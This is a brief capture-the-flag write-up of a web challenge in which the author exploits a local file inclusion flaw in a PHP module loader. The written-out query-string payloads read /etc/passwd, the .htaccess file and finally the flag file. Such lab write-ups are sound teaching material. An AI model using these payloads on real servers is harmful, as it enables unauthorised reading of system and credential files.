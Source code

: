 # Hot Acess

> This small program lets you load convenient and simple PHP modules and resources from this Apache webserver. Check out what you can access!

I read the source of the index page, and found the links that were used to load php files.
```html
		<ul>
			<li> <a href="http://jh2i.com:50016/?m=modules/date.php"> date </a></li>
			<li> <a href="http://jh2i.com:50016/?m=modules/time.php"> time </a></li>
		</ul>
```

So I changed the query string to load `etc/passwd`
> http://jh2i.com:50016/?m=\etc\passwd
and it worked!   

![etc/passwd](1.png)

Then I tried opening .htaccess file, and it worked to and it gave this location a directory

```xml
<Directory /var/www/html>

	Options Indexes FollowSymLinks MultiViews
	AllowOverride All
	Order allow,deny
	allow from all
 
 </Directory>

  <Directory /var/www/html/sshh_dont_tell_i_hid_the_flag_here>
	
	AllowOverride All
 
 </Directory> 
```
![.htaccess](2.png)

So the flag has to be inside this directory `/var/www/html/sshh_dont_tell_i_hid_the_flag_here`, I tried opening http://jh2i.com:50016/?m=/var/www/html/sshh_dont_tell_i_hid_the_flag_here/flag.txt and it gave the flag!
![Flag](3.png)

> #### LLS{htaccess_can_control_what_you_access}




